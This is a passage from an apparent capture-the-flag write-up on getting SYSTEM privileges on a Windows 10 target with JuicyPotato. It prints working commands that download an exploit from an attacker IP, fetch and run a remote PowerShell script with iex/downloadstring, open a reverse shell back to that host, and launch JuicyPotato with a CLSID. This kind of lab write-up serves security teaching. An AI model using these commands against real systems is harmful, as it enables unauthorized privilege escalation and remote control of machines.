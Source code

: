 


<h3>Privilege Escalation</h3>


The above user privs suggest that we can make an easy privesc with [JuicyPotato](https://github.com/ohpe/juicy-potato); the Windows 10 Enterprise Edition is
vulnerable to the exploit.


First create a writable working directory on the target.

```
mkdir c:\boo
```

Copy Juicy-Potato to the target (renamed `jp.exe` for convenience)

```
powershell IWR -uri http://10.10.14.17/jp.exe -outfile c:\boo\jp.exe
```

Also copy across a reverse shell file, a batch file containing a powershell command which calls a different powershell reverse shell works.

<h4>The rev.bat file</h4>

```
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.17/shell2.ps1')
```


The command at the bottom of shell2.ps1 sends the connection to a different port:


<h4>The Powershell Reverse-Shell</h4>
```
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.17 -Port 6969
```

The Juicy-Potato command will execute the rev.bat file with `System` privs, conferred on it by the clsid.

The rev.bat calls the powershell file, served by a python web server on Kali `python3 -m http.server 80`,

The shell2.ps1 file in turn invokes a `System` reverse shell from the target to the new port.


<h4>The Juicy-Potato command</h4>

```
.\jp.exe -l 9001 -t * -p \boo\rev.bat -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

![juicy](/assets/img/conceal/conceal-juicy.png)
